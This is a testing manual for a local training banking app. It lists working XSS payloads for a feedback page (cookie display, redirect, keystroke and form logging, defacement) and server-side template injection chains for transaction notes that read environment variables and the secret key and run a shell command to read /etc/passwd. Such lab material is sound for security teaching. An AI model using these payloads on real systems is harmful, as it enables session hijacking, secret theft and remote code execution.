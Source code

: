 # XSS and Template Injection Testing Manual

## Environment Setup

Before starting, ensure you have:
- Banking-app container running
- Browser Developer Tools open (F12)
- Multiple browser tabs for testing

### Monitoring Setup
1. **Browser Console**: Keep F12 Developer Tools open to catch XSS alerts
2. **Network Tab**: Monitor requests to detect successful injections
3. **Application Logs**: `docker logs banking-app` to see server-side errors

---

## Part 1: XSS (Cross-Site Scripting) Testing

### Target: Feedback System

**Vulnerable Endpoints:**
- `/submit_feedback` - Input point for XSS payloads
- `/feedback/<id>` - XSS execution point (renders `{{ feedback.message|safe }}`)

### Basic XSS Tests

**Test 1: Simple Alert Box**
```
<script>alert('XSS Vulnerability Found!')</script>
```
- **Expected Result**: Alert box appears when viewing feedback detail
- **Impact**: Confirms basic XSS execution

**Test 2: Cookie Theft**
```
<script>alert('Your cookies: ' + document.cookie)</script>
```
- **Expected Result**: Shows user's session cookies
- **Impact**: Demonstrates potential session hijacking

**Test 3: Page Redirection**
```
<script>window.location.href='http://127.0.0.1:8888'</script>
```
- **Expected Result**: Redirects viewers to external site
- **Impact**: Shows potential for phishing attacks

### Advanced XSS Payloads

**Test 4: Keylogger Simulation**
```
<script>
document.addEventListener('keydown', function(e) {
    console.log('Key pressed: ' + e.key);
});
alert('Keylogger activated - check console');
</script>
```

**Test 5: Form Data Theft**
```
<script>
document.querySelectorAll('input').forEach(input => {
    input.addEventListener('change', function() {
        console.log('Field: ' + this.name + ', Value: ' + this.value);
    });
});
alert('Form monitoring activated');
</script>
```

**Test 6: DOM Manipulation**
```
<script>
document.body.innerHTML = '<h1 style="color:red;">WEBSITE COMPROMISED</h1>';
</script>
```

### XSS via HTML Attributes

**Test 7: Event Handler Injection**
```
<img src="x" onerror="alert('XSS via image error')">
```

**Test 8: SVG-based XSS**
```
<svg onload="alert('SVG XSS')"></svg>
```

### Testing Steps for XSS

1. **Navigate to Feedback Submission:**
   ```
   http://localhost:5000/submit_feedback
   ```

2. **Submit payload in the message field**

3. **View the feedback detail page:**
   ```
   http://localhost:5000/feedback/<feedback_id>
   ```

4. **Check for execution:**
   - Alert boxes appearing
   - Console messages
   - DOM changes
   - Network requests


## Part 2: Server-Side Template Injection (SSTI) Testing

### Target: Transaction Notes System

**Vulnerable Function:** `transaction_detail()` in transaction routes
**Injection Point:** Transaction note field  

### Basic Template Injection Tests

**Test 1: Template Expression Evaluation**
```
{{ 7 * 7 }}
```
- **Expected Result**: Displays "49" instead of "{{ 7 * 7 }}"
- **Impact**: Confirms template injection

**Test 2: Object Introspection**
```
{{ current_user.email }}
```
- **Expected Result**: Displays the current user's username
- **Impact**: Shows access to application objects

**Test 3: Configuration Access**
```
{{ config.SECRET_KEY }}
```
- **Expected Result**: Might display the application's secret key
- **Impact**: Critical security information disclosure

### Advanced SSTI Payloads

**Test 4: File System Access**
```
{{ ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__['sys'].modules['os'].listdir('.') }}
```
- **Expected Result**: Lists files in current directory
- **Impact**: File system enumeration

**Test 5: Environment Variables**
```
{{ ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__['sys'].modules['os'].environ }}
```
- **Expected Result**: Displays all environment variables
- **Impact**: Sensitive configuration exposure

**Test 6: Command Execution (if possible)**
```
{{ ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__['sys'].modules['subprocess'].check_output(['cat /etc/passwd'], shell=True, text=True) }}
```
- **Expected Result**: May execute system commands
- **Impact**: Remote code execution


### Testing Steps for SSTI

1. **Access a transaction detail page:**
   ```
   http://localhost:5000/transaction/<transaction_id>
   ```

2. **Edit the transaction note with SSTI payload**

3. **Submit the note update**

4. **Observe the rendered result:**
   - Check if template expressions are evaluated
   - Look for error messages that reveal information
   - Monitor application logs for exceptions
